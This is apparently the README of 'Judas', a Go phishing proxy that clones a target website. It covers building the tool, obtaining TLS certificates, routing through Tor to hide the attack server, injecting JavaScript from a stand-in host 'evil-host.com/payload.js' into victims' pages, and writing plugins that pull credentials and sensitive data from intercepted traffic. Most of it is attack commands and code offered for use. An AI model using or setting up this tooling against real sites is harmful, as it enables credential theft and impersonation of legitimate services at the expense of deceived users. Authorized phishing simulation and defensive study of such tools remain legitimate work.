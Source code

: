 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build -o judas cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website.
If you want to listen using HTTP, pass the ```--insecure``` flag.
If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

```
./judas --target https://target-url-with-self-signed-cert.com --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Plugin with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Plugin, error)
```

The `judas.Plugin` interface has one method: `Listen`.

```
// Plugin must be implemented by a plugin to users to hook the request - response transaction.
// The Listen method will be run in its own goroutine, so plugins cannot block the rest of the program, however panics can take down the entire process.
type Plugin interface {
	Listen(results <-chan *Result)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Plugins can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

You can put plugins in a directory and pass them with the `--plugins-dir` flag.
By default it's `./plugins`.

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin path/to/plugin.go
```